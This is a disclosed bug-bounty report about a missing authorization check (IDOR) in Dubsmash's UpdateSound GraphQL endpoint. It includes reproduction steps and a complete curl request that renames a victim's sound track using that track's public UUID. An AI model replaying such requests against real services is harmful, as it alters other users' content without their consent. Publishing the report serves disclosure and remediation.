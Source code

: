 # [dubmash] Lack of authorization checks - Update Sound Titles

## Report Details
- **Report ID**: 1102365
- **URL**: https://hackerone.com/reports/1102365
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-02-12T20:02:18.541Z
- **Disclosed**: 2021-10-21T19:49:54.149Z

## Reporter
- **Username**: sandeep_rj49
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
## Summary:
During the security testing, it has been observed that the `UpdateSound` api is vulnerable to IDOR. It allows an attacker to edit the victim's sound track titles. This vulnerability can be exploited using the sound track's uuid in the vulnerable request. This id is publicly known. 


## Steps To Reproduce:
1. Replay the vulnerable request using a valid authorization token. 
2. Change the uuid parameter value with the victim's sound track UUID. 
3. Victim's sound track title will be changed. 

##Vulnerable request:
curl -i -s -k -X $'POST' \
    -H $'Host: gateway-production.dubsmash.com' -H $'X-Dmac: ' -H $'X-Remote-Config-Values: []' -H $'X-Time: 1613158267' -H $'User-Agent: Dopesmash/5.20.0 (com.mobilemotion.dubsmash; build:45431; iOS 14.0.1) Alamofire/5.4.0' -H $'X-Accept-Content-Language: en_IN' -H $'X-Device-Timezone: 19800' -H $'X-Device-Language: en' -H $'X-Device-Country: IN' -H $'X-Build-Number: 45431' -H $'Content-Length: 676' -H $'X-App-Version: 5.20.0' -H $'X-Platform: ios' -H $'Connection: close' -H $'Authorization: Bearer XXXXXX' -H $'X-Dubsmash-Device-Id: 0675382B-668E-4EB7-8313-ED96BC132DC9' -H $'Accept-Language: en-IN;q=1.0, hi-IN;q=0.9' -H $'Accept: application/json' -H $'Content-Type: application/json' -H $'X-Dmac-Version: 2' -H $'If-None-Match: W/\"88-IVjhmW06Njcacim4nwHnJNviYsE\"' \
    -b $'__cfduid=' \
    --data-binary $'{\"query\":\"mutation UpdateSound($input: UpdateSoundInput!) {\\n  updateSound(input: $input) {\\n    __typename\\n    sound {\\n      __typename\\n      ...SoundFragment\\n    }\\n  }\\n}\\nfragment SoundFragment on Sound {\\n  __typename\\n  uuid\\n  created_at\\n  sound\\n  name\\n  waveform_raw_data\\n  liked\\n  soundStatus: status\\n  creator {\\n    __typename\\n    ...ContentCreatorFragment\\n  }\\n  share_link\\n  num_likes\\n  num_videos\\n}\\nfragment ContentCreatorFragment on User {\\n  __typename\\n  username\\n  uuid\\n  date_joined\\n  followed\\n  has_invite_badge\\n  badges\\n  profile_picture\\n}\",\"variables\":{\"input\":{\"uuid\":\"a687eb61ad814a09a8a85cedef7837f3\",\"name\":\"test12355556777\"}}}' \
    $'https://gateway-production.dubsmash.com/graphql?build_number=45431&platform=ios'

## Impact

An attacker can change the title of the victim's sound track to some malicious title like accounthack or similar.

## Attachments
No attachments
